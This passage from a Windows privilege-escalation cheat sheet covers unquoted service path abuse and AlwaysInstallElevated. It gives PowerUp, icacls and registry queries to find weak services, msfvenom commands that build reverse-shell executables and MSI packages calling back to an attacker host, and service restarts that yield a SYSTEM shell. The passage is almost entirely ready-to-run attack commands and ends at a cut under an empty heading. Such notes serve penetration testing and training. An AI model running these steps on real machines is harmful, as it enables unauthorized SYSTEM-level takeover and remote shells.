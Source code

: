 With `PowerUp` we can list services with unquoted paths and a space in their name.

```powershell
Get-ServiceUnquoted -Verbose
```

We need to ensure that the service is running by `LocalSystem`:

```
sc qc <service>
Get-Service
```
Once we've found the binaries that are vulnerable to unquoted service path, we need to find where we have permissions to write, for that work we can use `icacls` or `Get-Acl` in PowerShell:

```
icacls "C:\Porgram Files"
Get-Acl -Path "C:\Program Files"
```

> **Info**: We need to find some with **write** permissions **(W)**

Once we've found the writeable path, we will need to create our malicious binary with `msfvenom` and upload in the right directory:

```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip-addr> LPORT=<port> -f exe -o First.exe
```

Finally we need to restart the service to gain access to system:

```
Stop-Service <service>
sc stop <service>

Start-Service <service>
sc start <service>
```

> **Note**: Its a easier way with `PowerUp.ps1`
>
> `Write-ServiceBinary -Name <ServiceName> -UserName <User> -Password <Passwd> -Path <Path>`


# Always Install Elevated

**If** these 2 registers are **enabled** (value is **0x1**), any user can **install `.msi` \*\* files as `NT AUTHORITY\`**`SYSTEM`\*\*

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

## Meterpreter

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT>-f msi -o shell.msi
```
## EXE to MSI
